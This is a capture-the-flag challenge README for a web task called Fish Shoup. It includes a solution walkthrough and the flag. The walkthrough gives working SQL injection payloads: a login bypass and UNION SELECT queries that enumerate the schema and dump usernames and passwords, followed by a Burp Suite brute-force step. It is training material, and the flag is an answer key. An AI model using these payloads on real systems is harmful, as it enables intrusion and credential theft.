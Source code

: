 # Fish Shoup

## Category
Web 50

## Question Text

>Help all marshmellow fart and skittle burp fishes!!!
>
>We forgot the credentials of our blog account because we have small brains!
>
>Log into it to get your awesome reward of helping us, we are nice creatures!
>
>But remember to keep it a secret! Shhh...
>Connect via `http://<ip address> 17456`

## Created by

@stopduckroll &amp; @paux &amp; @platy

## Setup Guide
Do `bash build.sh`

(It takes 15 seconds for the sql server to initialise. Everything should work after awhile)

## Distribution
None.

## Solution

1. When you first see the site, you will notice that you can search for fishes and also login
2. When you enter `'OR'1==1'#` you will notice that all entries comes out, meaning its vulnerable to sql injection
3. To view database name `asdf' UNION ALL SELECT null,null,database(),null,null #`
4. You can then use that to enter malicious sql code to view all table names `asdf' UNION ALL SELECT null,null,table_name,null,null FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'fishshoups' #`
5. From there you realise that there is a table storing user details,run this to see the collumn names `asdf' UNION ALL SELECT null,null,column_name,null,null FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'user_details_login' #` 
6. Crafting a new malicious string `asdf' UNION ALL SELECT null,user,password,null,role FROM user_details_login #` will allow you to see all the usernames
7. Now with all the username and passwords, you can use burpsuite to perform a "intruder attack on it"
8. Put the two payloads and put a regex for `GCTF`
9. Get flag

### Flag
`GCTF{m00ny_607_17}`


## Credits
CTF 101.

Thanks @Lflare for fixing mysql issues.

## Recommended Reads
None.
